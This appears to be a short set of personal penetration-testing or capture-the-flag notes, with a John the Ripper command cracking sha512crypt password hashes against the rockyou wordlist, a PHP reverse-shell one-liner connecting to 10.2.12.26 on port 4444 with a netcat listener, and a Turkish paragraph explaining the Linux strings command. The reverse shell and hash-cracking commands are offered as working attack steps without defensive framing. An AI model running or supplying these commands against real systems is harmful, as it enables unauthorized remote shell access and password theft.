 # john 
    john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt passwd --min-len=6 --max-len=6
# php reverse shell
    php -r '$sock=fsockopen("10.2.12.26",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
    nc -lvp 
# işte Linux içerisinde bulunan binary (ikili) dosyaların içerisinde bulunan ve alfabetik olarak yazırılabilir karakter dizilerini görmemizi strings komutu sağlar. Yukarıdaki örnekte kullandığımız ls  dosyasına bir de strings komutu ile bakalım. Komut çıktısında görüldüğü gibi, ekrana yazdırılan karakterlerin daha anlamlı ve okunabilir olduğunu görebilirsiniz. strings komutu genelde programlama ile uğraşanlar tarafından kullanılır ve grep komutu ile birlikte filtreleme de kullanılır. Bununla ilgili bir örnek verelim.
    strings key_rev_key
